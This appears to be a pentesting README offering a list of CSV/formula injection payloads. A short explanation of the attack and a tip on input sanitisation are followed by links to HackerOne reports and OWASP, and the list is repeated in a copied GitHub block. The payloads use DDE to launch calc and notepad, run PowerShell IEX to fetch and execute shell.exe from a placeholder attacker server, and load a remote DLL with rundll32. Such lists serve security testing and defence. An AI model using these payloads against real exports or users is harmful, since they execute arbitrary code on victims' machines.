 
CSV Injection Payload List

##
#
https://systemweakness.com/csv-injection-payload-list-e8e1deca6da5
#
https://medium.com/@ghostxploiter/how-a-simple-spreadsheet-can-hack-your-computer-csv-injection-98f4a26c4957
#
https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection
#
##




Screenshot on CSV Injection Attack
CSV injection is a type of cyber attack in which an attacker attempts to inject malicious data into a CSV file. This can happen if the application that processes the CSV file does not properly validate the input, allowing the attacker to insert arbitrary content into the file. The attacker may then be able to manipulate the data in the file, potentially leading to security breaches or other problems. To prevent CSV injection attacks, it is important to always validate user input and ensure that it is free from any malicious content before processing it. This can be done using a variety of techniques, such as input sanitization and filtering.

Payloads :
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
Sources to be read :
https://www.we45.com/blog/2017/02/14/csv-injection-theres-devil-in-the-detail
https://payatu.com/csv-injection-basic-to-exploit
https://www.veracode.com/blog/secure-development/data-extraction-command-execution-csv-injection
Examples from the real world :

https://hackerone.com/reports/118582
https://hackerone.com/reports/223344
https://hackerone.com/reports/126109
https://hackerone.com/reports/386116
https://hackerone.com/reports/459532
https://hackerone.com/reports/335447
https://hackerone.com/reports/219323
https://hackerone.com/reports/216243
https://hackerone.com/reports/282628
References :
CSV Injection :

👉 https://owasp.org/www-community/attacks/CSV_Injection
Cloning an Existing Repository ( Clone with HTTPS )

root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
Cloning an Existing Repository ( Clone with SSH )

root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
GitHub : https://github.com/payloadbox/csv-injection-payloads



```
CSV Injection Payloads
     

CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

Payloads :
=DDE("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
References :
CSV Injection :
👉 https://owasp.org/www-community/attacks/CSV_Injection
Cloning an Existing Repository ( Clone with HTTPS )
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
Cloning an Existing Repository ( Clone with SSH )
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
Donate!
